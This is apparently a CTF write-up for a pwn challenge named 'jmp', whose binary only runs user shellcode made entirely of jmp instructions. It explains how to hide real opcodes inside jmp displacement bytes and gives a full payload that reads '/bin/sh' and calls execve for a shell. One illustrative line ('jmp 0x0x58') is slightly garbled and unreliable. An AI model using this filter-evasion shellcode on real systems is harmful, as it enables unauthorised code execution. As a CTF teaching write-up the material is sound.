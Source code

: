 # jmp

## Challenge

`Author`: **godsword**

**Description**

> jmp jmp jmp

**Files**

- [out_patched](./files/out_patched)
- [libc.so.6](./files/libc.so.6)
- [ld.so.2](./files/ld.so.2)
- [libcapstone.so.5](./files/libcapstone.so.5)

## Writeup

### Reverse Engineering

We are provided with the binary `out_patched`, no source code so let's decompile with ida (or ghidra whatever).

> Note: You need to put the executable and the libraries in the same directory since it's already patched.

There are two things to notice, it's quite simple  
Main  
![main decoompiled](./images/main.png)
Basically, it is mapping a region and reading user input into it and then after passing it to a check function it changes the permissions of the segment to RW and finally it calls our input which obviously should be a shellcode.  
Now for the check function

![check decompiled](./images/check.png)

So, this functions desassembles our shellcode and just makes sure that every instruction is a `jmp`.

### Exploitation

What we need to do is pretty straitghforward: write a shellcode with only `jmp` instruction.  
wait what ???

![???? gif](./images/what.gif)

That was my reaction at the beginning, I thought of trying to find some absurd combination of rop gadgets but I quickly realized I was stupid since `PIE` is enabled

![checksec](./images/checksec.png)

So, after some time of questionning my life choices I realized that since jmp uses relative offsets, the actual solution came to mind.  
We just need to use the offset themselves as instructions, so we just would need to use one jmp in order to jump in the middle of the next jmp instruction, in this case, the offset will be considerd as opcodes.  
example:

- Opcode for `pop rax` is `0x58`
- Opcode for `short jmp` (1 byte offset) is `0xeb`
- it means that if we have this code snippet:

```asm
jmp 0x1    // \xeb\x01
jmp 0x0x58 // \xeb\x01
```

So basically in this case, with dynamic analysis we will be getting

```asm
jmp 0x1 // \xeb\x01
pop rax // \x58
```

And using this principle we just need to write this shellcode:

```asm
mov rsi, rsp
add rsi, 0x50
xor rdi, rdi
xor rax, rax
push 0x8
pop rdx
syscall ; read(fd=0,buf=rsi,count=0x8) we are gonna send /bin/sh

mov rdi, rsi
push 0x3b
pop rax
push 0
push 0
pop rsi
pop rdx
syscall ; execve(pathname=rsi,argv=NULL,envp=NULL)
```

so at the end, we will get this final payload

```py
def main():
    global io
    io = conn()
    shellcode=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x89\xe6"# mov rsi, rsp
    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x48\x83\xc6\x50" # add rsi, 0x50

    shellcode+=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x31\xFF" # xor rdi, rdi
    shellcode+=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x31\xc0" # xor rax, rax
    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x08" #push 0x8 to stack
    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x5a" #pop rdx

    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x0f\x05" # syscall

    shellcode+=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x89\xf7" # mov rdi, rsi

    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x3b" #push 0x3b to stack
    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x58" #pop rax
    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x00" #push 0 to stack
    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x00" #push 0 to stack

    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x5e" #pop rsi

    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x5a" #pop rdx

    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x0f\x05" # syscall

    # shellcode+=b"\xeb\x00"# infinite loop
    # shellcode+=b"\xeb\xfe"# infinite loop

    sleep(0.1)
    io.send(shellcode)

    sleep(0.1)

    io.send(b"/bin/sh\x00")
    sleep(0.1)

    io.interactive()

```

Solve script [here](./solve/solve.py)

> Note: we are also using near jmp (4 bytes offset) with opcode `0xe9` in order to have more flexibility in the shellcode

## Flag

`ingehack{the_junkiest_solve_script_award_goes_to}`
